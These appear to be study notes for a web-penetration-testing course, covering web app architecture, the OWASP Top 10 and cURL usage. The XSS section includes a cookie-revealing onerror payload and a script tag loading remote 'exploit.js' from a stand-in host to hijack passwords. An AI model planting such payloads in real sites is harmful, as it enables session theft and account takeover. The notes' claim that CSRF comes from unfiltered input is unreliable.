 
# 🌐 Web Application Layout

### 🧩 Categories
-   **Web Application Infrastructure**
    -   `Client-Server`
    -   `One Server`
    -   `Many Servers - One Database`
    -   `Many Servers - Many Databases`
-   **Web Application Components**
    1.  `Client`
    2.  `Server`
        -   Webserver
        -   Web Application Logic
        -   Database
    3.  `Services` (Microservices)
        -   3rd Party Integrations
        -   Web Application Integrations
    4.  `Functions` (Serverless)
-   **Web Application Architecture (3 Layers)**
    -   🖥️ Presentation Layer: Frontend
    -   ⚙️ Application Layer: Backend
    -   💾 Data Layer: Database
    
# 🧱 [OWASP Top 10](https://owasp.org/www-project-top-ten/) Vulnerabilities

1.  🚫 Broken Access Control
2.  🔐 Cryptographic Failures
3.  💉 Injection
4.  ⚠️ Insecure Design
5.  ⚙️ Security Misconfiguration
6.  🧩 Vulnerable & Outdated Components
7.  🧍 Identification & Authentication Failures
8.  🧱 Software & Data Integrity Failures
9.  📜 Security Logging & Monitoring Failures
10.  🌐 Server-Side Request Forgery (SSRF)


# 🎨 Frontend Vulnerabilities
## 💥 Cross-Site Scripting (XSS)
-   **3 types:**  `Reflected`, `Stored`, `DOM`
```javascript
#"><img src=/ onerror=alert(document.cookie)>
```
## 🌀 Cross-Site Request Forgery (CSRF)
- caused by unfiltered user input
- **common `CSRF` attack:** 
	- gain admin priv
	- craft a `JavaScript` payload that automatically changes the victim's password to the value set by the attacker.
```html
"><script src=//www.example.com/exploit.js></script>
```

## 🧰 Deobfuscation Tools
- [JS Console](https://jsconsole.com)
- [Prettier](https://prettier.io/playground/)
- [Beautifier](https://beautifier.io/)
- [JSNice](http://www.jsnice.org/)

# 🖥️ Backend Vulnerabilities

-   🔓 Broken Auth / Access Control (Bypass login)
-   📁 Malicious File Upload
-   🧨 Command Injection
-   💉 SQL Injection (SQLi)
-   🧾 CVEs (Common Vulnerabilities & Exposures)
# cURL
## curl
curl url					
**option** | **desc**
|--|--|
`-o` | save in a file 
`-s` | for silent mode
`-k` |skip the certificate check
`-v` | print both the request and response
`-I` |	display response header
`-i` 	|	display response header and body
`-A` | to set our User-Agent from header
`-u admin:admin url` | 
`-H 'Authorization: Basic YWRtaW46YWRtaW4='` |
`-X POST -d 'username=admin&password=admin'` | 							-X for method and -d for data
`-L` | follow redirect link
`-b 'PHPSESSID=c1nsa6op7vtk7kdis7bcnbadf1'` | set cookies 
`-s` | jq |for good json structer
	
- post ex: `curl -X POST -d '{"search":"f"}' -b 'PHPSESSID=9501nu5f74kqgohjh4ogu6debb' -H 'Content-Type: application/json' http://94.237.51.163:42040/search.php`
 ## HTB CHEAT SHEET
**Command** | **Description**
|--|--|
`curl -h` | cURL help menu
`curl inlanefreight.com` | Basic GET request
`curl -s -O inlanefreight.com/index.html` | Download file
`curl -k https://inlanefreight.com` | Skip HTTPS (SSL) certificate validation
`curl inlanefreight.com -v` | Print full HTTP request/response details
`curl -I https://www.inlanefreight.com` | Send HEAD request (only prints response headers)
`curl -i https://www.inlanefreight.com` | Print response headers and response body 
`curl https://www.inlanefreight.com -A 'Mozilla/5.0'` | Set User-Agent header
`curl -u admin:admin http://<SERVER_IP>:<PORT>/` | Set HTTP basic authorization credentials
`curl http://admin:admin@<SERVER_IP>:<PORT>/` | Pass HTTP basic authorization credentials in the URL
`curl -H 'Authorization: Basic YWRtaW46YWRtaW4=' http://<SERVER_IP>:<PORT>/` | Set request header
`curl 'http://<SERVER_IP>:<PORT>/search.php?search=le'` | Pass GET parameters
`curl -X POST -d 'username=admin&password=admin' http://<SERVER_IP>:<PORT>/` | Send POST request with POST data
`curl -b 'PHPSESSID=c1nsa6op7vtk7kdis7bcnbadf1' http://<SERVER_IP>:<PORT>/` | Set request cookies
`curl -X POST -d '{"search":"london"}' -H 'Content-Type: application/json' http://<SERVER_IP>:<PORT>/search.php` | Send POST request with JSON data

## APIs

**Command** | **Description**
|--|--|
`curl http://<SERVER_IP>:<PORT>/api.php/city/london` | Read entry
`curl -s http://<SERVER_IP>:<PORT>/api.php/city/ | jq` | Read all entries
`curl -X POST http://<SERVER_IP>:<PORT>/api.php/city/ -d '{"city_name":"HTB_City", "country_name":"HTB"}' -H 'Content-Type: application/json'`|Create (add) entry
`curl -X PUT http://<SERVER_IP>:<PORT>/api.php/city/london -d '{"city_name":"New_HTB_City", "country_name":"HTB"}' -H 'Content-Type: application/json'` | Update (modify) entry
`curl -X DELETE http://<SERVER_IP>:<PORT>/api.php/city/New_HTB_City` | Delete entry

<!--stackedit_data:
eyJoaXN0b3J5IjpbLTMxMjY3NjQ0OCwtMTQ0NDQ5Mjc2NCwtMT
c0OTg4ODYxNSwxOTY1ODU2ODYyXX0=
-->